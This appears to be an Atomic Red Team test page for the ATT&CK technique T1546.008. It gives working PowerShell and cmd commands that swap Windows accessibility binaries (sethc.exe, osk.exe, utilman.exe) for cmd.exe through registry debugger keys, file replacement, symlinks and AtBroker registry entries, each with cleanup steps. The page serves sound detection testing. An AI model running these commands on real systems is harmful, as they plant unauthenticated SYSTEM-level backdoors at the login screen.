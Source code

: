 # T1546.008 - Event Triggered Execution: Accessibility Features
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/008)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by accessibility features. Windows contains accessibility features that may be launched with a key combination before a user has logged in (ex: when the user is on the Windows logon screen). An adversary can modify the way these programs are launched to get a command prompt or backdoor without logging in to the system.

Two common accessibility programs are <code>C:\Windows\System32\sethc.exe</code>, launched when the shift key is pressed five times and <code>C:\Windows\System32\utilman.exe</code>, launched when the Windows + U key combination is pressed. The sethc.exe program is often referred to as "sticky keys", and has been used by adversaries for unauthenticated access through a remote desktop login screen. (Citation: FireEye Hikit Rootkit)

Depending on the version of Windows, an adversary may take advantage of these features in different ways. Common methods used by adversaries include replacing accessibility feature binaries or pointers/references to these binaries in the Registry. In newer versions of Windows, the replaced binary needs to be digitally signed for x64 systems, the binary must reside in <code>%systemdir%</code>, and it must be protected by Windows File or Resource Protection (WFP/WRP). (Citation: DEFCON2016 Sticky Keys) The [Image File Execution Options Injection](https://attack.mitre.org/techniques/T1546/012) debugger method was likely discovered as a potential workaround because it does not require the corresponding accessibility feature binary to be replaced.

For simple binary replacement on Windows XP and later as well as and Windows Server 2003/R2 and later, for example, the program (e.g., <code>C:\Windows\System32\utilman.exe</code>) may be replaced with "cmd.exe" (or another program that provides backdoor access). Subsequently, pressing the appropriate key combination at the login screen while sitting at the keyboard or when connected over [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) will cause the replaced file to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Other accessibility features exist that may also be leveraged in a similar fashion: (Citation: DEFCON2016 Sticky Keys)(Citation: Narrator Accessibility Abuse)

* On-Screen Keyboard: <code>C:\Windows\System32\osk.exe</code>
* Magnifier: <code>C:\Windows\System32\Magnify.exe</code>
* Narrator: <code>C:\Windows\System32\Narrator.exe</code>
* Display Switcher: <code>C:\Windows\System32\DisplaySwitch.exe</code>
* App Switcher: <code>C:\Windows\System32\AtBroker.exe</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes](#atomic-test-1---attaches-command-prompt-as-a-debugger-to-a-list-of-target-processes)

- [Atomic Test #2 - Replace binary of sticky keys](#atomic-test-2---replace-binary-of-sticky-keys)

- [Atomic Test #3 - Create Symbolic Link From osk.exe to cmd.exe](#atomic-test-3---create-symbolic-link-from-oskexe-to-cmdexe)

- [Atomic Test #4 - Atbroker.exe (AT) Executes Arbitrary Command via Registry Key](#atomic-test-4---atbrokerexe-at-executes-arbitrary-command-via-registry-key)


<br/>

## Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes
Attaches cmd.exe to a list of processes. Configure your own Input arguments to a different executable or list of executables.
Upon successful execution, powershell will modify the registry and swap osk.exe with cmd.exe.

**Supported Platforms:** Windows


**auto_generated_guid:** 3309f53e-b22b-4eb6-8fd2-a6cf58b355a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| parent_list | Comma separated list of system binaries to which you want to attach each #{attached_process}. Default: "osk.exe" | string | osk.exe, sethc.exe, utilman.exe, magnify.exe, narrator.exe, DisplaySwitch.exe, atbroker.exe|
| attached_process | Full path to process to attach to target in #{parent_list}. Default: cmd.exe | path | C:&#92;windows&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$input_table = "#{parent_list}".split(",")
$Name = "Debugger"
$Value = "#{attached_process}"
Foreach ($item in $input_table){
  $item = $item.trim()
  $registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item"
  IF(!(Test-Path $registryPath))
  {
    New-Item -Path $registryPath -Force
    New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
  }
  ELSE
  {
    New-ItemProperty -Path $registryPath -Name $name -Value $Value
  }
}
```

#### Cleanup Commands:
```powershell
$input_table = "#{parent_list}".split(",")
Foreach ($item in $input_table)
{
  $item = $item.trim()
  reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item" /v Debugger /f 2>&1 | Out-Null
}
```





<br/>
<br/>

## Atomic Test #2 - Replace binary of sticky keys
Replace sticky keys binary (sethc.exe) with cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 934e90cf-29ca-48b3-863c-411737ad44e3






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
IF NOT EXIST C:\Windows\System32\sethc_backup.exe (copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc_backup.exe) ELSE ( pushd )
takeown /F C:\Windows\System32\sethc.exe /A
icacls C:\Windows\System32\sethc.exe /grant Administrators:F /t
copy /Y C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

#### Cleanup Commands:
```cmd
copy /Y C:\Windows\System32\sethc_backup.exe C:\Windows\System32\sethc.exe
```





<br/>
<br/>

## Atomic Test #3 - Create Symbolic Link From osk.exe to cmd.exe
Replace accessiblity executable with cmd.exe to provide elevated command prompt from login screen without logging in.

**Supported Platforms:** Windows


**auto_generated_guid:** 51ef369c-5e87-4f33-88cd-6d61be63edf2






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
IF NOT EXIST %windir%\System32\osk.exe.bak (copy %windir%\System32\osk.exe %windir%\System32\osk.exe.bak) ELSE ( pushd )
takeown /F %windir%\System32\osk.exe /A
icacls %windir%\System32\osk.exe /grant Administrators:F /t
del %windir%\System32\osk.exe
mklink %windir%\System32\osk.exe %windir%\System32\cmd.exe
```

#### Cleanup Commands:
```cmd
takeown /F %windir%\System32\osk.exe /A
icacls %windir%\System32\osk.exe /grant Administrators:F /t
del %windir%\System32\osk.exe
copy /Y %windir%\System32\osk.exe.bak %windir%\System32\osk.exe
icacls %windir%\system32\osk.exe /inheritance:d
icacls %windir%\system32\osk.exe /setowner "NT SERVICE\TrustedInstaller"
icacls %windir%\System32\osk.exe /grant "NT SERVICE\TrustedInstaller":F /t
icacls %windir%\system32\osk.exe /grant:r SYSTEM:RX
icacls %windir%\system32\osk.exe /grant:r Administrators:RX
```





<br/>
<br/>

## Atomic Test #4 - Atbroker.exe (AT) Executes Arbitrary Command via Registry Key
Executes code specified in the registry for a new AT (Assistive Technologies).

**Supported Platforms:** Windows


**auto_generated_guid:** 444ff124-4c83-4e28-8df6-6efd3ece6bd4






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware_test"
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware_test" /v TerminateOnDesktopSwitch /t REG_DWORD /d 0
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware_test" /v StartEXE /t REG_SZ /d C:\WINDOWS\system32\cmd.exe
atbroker /start malware_test
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware_test"
```





<br/>
